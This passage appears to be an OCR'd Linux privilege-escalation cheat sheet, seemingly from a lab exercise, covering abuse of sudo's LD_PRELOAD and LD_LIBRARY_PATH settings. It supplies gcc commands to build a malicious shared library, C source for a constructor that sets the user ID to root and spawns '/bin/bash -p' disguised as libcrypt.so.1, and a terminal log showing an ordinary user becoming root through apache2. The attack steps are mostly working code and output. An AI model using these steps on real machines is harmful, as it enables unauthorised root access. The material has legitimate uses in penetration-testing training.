 - compile  preload.c file

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

- run sudo with  any program list to run with sudo

```bash
sudo LD_PRELOAD=/tmp/preload.so less

```


* exploit binary that doest list in gtfobin with sudo env 


[+] steps<br>
- run load library against binary file.

```bash
ldd /usr/sbin/apache2
```

one of shared library it's `libcrypt.so.1`   use code below to create shared library 


*libcrypt.so.1*
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```

- compile code 
```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```


- run sudo and put dir where shared library 
```bash
user@debian:/tmp$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
user@debian:/tmp$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
